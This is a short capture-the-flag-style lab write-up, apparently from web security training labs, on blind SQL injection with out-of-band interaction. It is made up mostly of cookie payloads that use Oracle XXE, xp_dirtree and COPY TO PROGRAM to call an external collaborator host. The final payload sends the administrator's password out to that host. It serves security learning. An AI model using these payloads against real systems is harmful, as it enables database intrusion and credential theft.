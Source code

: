 ```bash
```

Solution turned out to be:
```bash
Cookie: TrackingId=x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://qoih8sx8xnsldu80hx2jekvem5swgr4g.oastify.com/"> %remote;]>'),'/l') FROM dual -- ;
```
But it didn't work, because it needed to be url encoded:
```bash
Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual+--+;
```

> Note: in Oracle you use UNION, but I used `;` after the `TrackingId=x'`  
> Note: my payload did not work because I didn't url encode

### Lab: Blind SQL injection with out-of-band data exfiltration
There's a `Cookie: TrackingId` value of which is vlulnerable to sqli.

First I try to find out if there's an sqli vulnerability at all.
For that purpose I try the following payload (I actually url encode it, but here for the purpose of readability I don't):
```bash
Cookie: TrackingId=x' AND SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hl6agr3zzmj21sebjha893bhw82zqpee.oastify.com/"> %remote;]>'),'/l') FROM dual -- ;
```
I try another:
```bash
Cookie: TrackingId=x' AND SELECT UTL_INADDR.get_host_address('http://hl6agr3zzmj21sebjha893bhw82zqpee.oastify.com') -- ;
```
Again:
```bash
Cookie: TrackingId=x' AND exec master..xp_dirtree '//http://hl6agr3zzmj21sebjha893bhw82zqpee.oastify.com/a' -- ;
```
Again:
```bash
Cookie: TrackingId=x' AND copy (SELECT '') to program 'nslookup http://hl6agr3zzmj21sebjha893bhw82zqpee.oastify.com' -- ;
```

Nothing worked so the solution:
```bash
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.http://hl6agr3zzmj21sebjha893bhw82zqpee.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```


## SQL injection in different contexts
You can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

